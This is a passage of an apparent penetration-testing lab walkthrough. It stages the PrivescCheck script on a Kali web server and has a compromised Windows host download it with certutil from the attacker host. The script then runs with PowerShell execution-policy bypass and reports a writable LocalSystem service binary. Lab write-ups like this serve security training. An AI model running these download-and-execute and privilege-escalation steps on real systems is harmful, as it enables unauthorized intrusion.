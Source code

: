 Retrieve the `PrivescCheck.ps1` script and put it in the Kali web server root:

```console
┌──(root㉿kali)-[~]
└─# curl -o /var/www/html/PrivescCheck.ps1 https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 83020  100 83020    0     0   216k      0 --:--:-- --:--:-- --:--:--  216k
```

Get the target to download the script from Kali and run it:

```cmd
c:\windows\system32\inetsrv>certutil.exe -urlcache -f -split http://kali.vx/PrivescCheck.ps1 %TEMP%\PrivescCheck.ps1
certutil.exe -urlcache -f -split http://kali.vx/PrivescCheck.ps1 %TEMP%\PrivescCheck.ps1
****  Online  ****
  000000  ...
  01444c
CertUtil: -URLCache command completed successfully.

c:\windows\system32\inetsrv>powershell -nop -ep bypass -c "Import-Module %TEMP%\PrivescCheck.ps1; Invoke-PrivescCheck"
powershell -nop -ep bypass -c "Import-Module %TEMP%\PrivescCheck.ps1; Invoke-PrivescCheck"
⋮
+------+------------------------------------------------+------+
| TEST | SERVICES > Binary Permissions                  | VULN |
+------+------------------------------------------------+------+
| DESC | List all services and check whether the current user  |
|      | can modify the target executable or write files in    |
|      | its parent folder.                                    |
+------+-------------------------------------------------------+
[*] Found 6 result(s).


Name              : BOOTP Turbo
ImagePath         : C:\Program Files\BOOTP Turbo\bootpt.exe
User              : LocalSystem
ModifiablePath    : C:\Program Files\BOOTP Turbo
IdentityReference : BUILTIN\Users
Permissions       : WriteOwner, Delete, WriteAttributes, Synchronize,
                    ReadControl, ListDirectory, AddSubdirectory,
                    WriteExtendedAttributes, WriteDAC, ReadAttributes,
                    AddFile, ReadExtendedAttributes, DeleteChild, Traverse
Status            : Running
UserCanStart      : True
UserCanStop       : True

Name              : BOOTP Turbo
ImagePath         : C:\Program Files\BOOTP Turbo\bootpt.exe
User              : LocalSystem
ModifiablePath    : C:\Program Files\BOOTP Turbo\bootpt.exe
IdentityReference : BUILTIN\Users
Permissions       : WriteOwner, Delete, WriteAttributes, Synchronize,
                    ReadControl, ReadData, AppendData,
                    WriteExtendedAttributes, WriteDAC, ReadAttributes,
                    WriteData, ReadExtendedAttributes, DeleteChild, Execute
Status            : Running
UserCanStart      : True
UserCanStop       : True
⋮
```
